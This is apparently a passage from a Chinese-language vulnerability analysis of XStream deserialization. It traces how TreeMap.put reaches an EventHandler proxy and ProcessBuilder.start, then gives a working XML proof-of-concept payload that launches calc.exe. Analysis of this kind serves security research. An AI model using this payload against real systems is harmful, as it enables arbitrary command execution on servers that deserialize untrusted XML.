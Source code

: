 随后会调用父类的也就是Abstract的putAll

![image-20220517171436243](images/27.png)

这里的key ，value就是之前添加到map的

![image-20220517171531339](images/28.png)

跟进put，来到TreeMap的put

![image-20220517171553484](images/29.png)

这里的k就是那个代理类，所以这里会触发对应的EventHandler#invoke方法

![image-20220517171629475](images/30.png)

接着跟进invokeInternal方法

![image-20220517172231034](images/31.png)

这里得到了targetMethod是`ProcessBuilder.start`

![image-20220517172514067](images/32.png)

然后在这里调用到`ProcessBuilder.start`，就可以去执行相应的命令了

![image-20220517172659651](images/33.png)

其实整个流程就是一个解析xml的流程

从`com.thoughtworks.xstream.core.TreeUnmarshaller#start`方法开始解析xml，调用`HierarchicalStreams.readClassType`通过标签名获取Mapper中对于的class对象。获取class完成后调用`com.thoughtworks.xstream.core.TreeUnmarshaller#convertAnother`,该方法会根据class转换为对应的Java对象。`convertAnother`的实现是`mapper.defaultImplementationOf`方法查找class实现类。根据实现类获取对应转换器，获取转换器部分的实现逻辑是`ConverterLookup`中的`lookupConverterForType`方法,先从缓存集合中查找`Converter`,遍历`converters`找到符合的`Converter`。随后，调用`convert`返回object对象。`convert`方法实现逻辑是调用获取到的`converter`转换器的`unmarshal`方法来根据获取的对象，继续读取子节点，并转化成对象对应的变量。直到读取到最后一个节点退出循环。最终获取到java对象中的变量值也都设置，整个XML解析过程就结束了

## POC2

```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
